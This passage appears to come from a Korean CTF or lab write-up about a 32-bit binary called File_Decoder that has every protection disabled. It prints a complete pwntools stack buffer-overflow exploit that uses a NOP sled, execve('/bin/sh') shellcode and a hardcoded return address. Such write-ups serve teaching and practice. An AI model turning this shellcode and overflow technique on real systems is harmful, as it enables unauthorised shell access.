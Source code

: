 checksec을 통해 보호기법을 확인해보면 모든 보호기법이 꺼져있음을 확인할 수 있습니다.
<img src="/assets/img/SpaceAloneMacOS/25.png" alt="접속 화면" width="70%" style="display: block; margin: 0 auto;">

저는 NX bit가 비활성화 되어있고, bof 취약점이 있는만큼 쉘코드를 통해서 풀어보기로 결정했습니다.

- Payload

```python
from pwn import *

p = process('./File_Decoder',stdin=PTY, stdout=PTY)
e = ELF('./File_Decoder')

context.log_level = "debug"
context.arch = "i386"

buf = 0xffffd400
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"

payload = b'\x90' * (0xb0 - len(shellcode))
payload += shellcode
payload += b'A' * 0x50
payload += b'B' * 12
payload += p32(buf)
pause()

p.sendlineafter(b'Serial Number: ',payload)
p.interactive()
```
buf의 주소는 직접 gets로 입력을 받은 뒤의 스택 상태를 확인해보고 NOP sled의 중간 지점정도로 설정을 했고, 쉘코드를 맨 앞에 넣고 패딩하는 것보다 NOP sled를 사용하는 것이 더 나을 것이라고 판단했습니다.

<img src="/assets/img/SpaceAloneMacOS/26.png" alt="페이로드" width="70%" style="display: block; margin: 0 auto;">
쉘코드는 32bit에서 사용할 수 있는 `execve("/bin/sh")` 쉘코드를 사용하여 exploit을 진행했습니다.
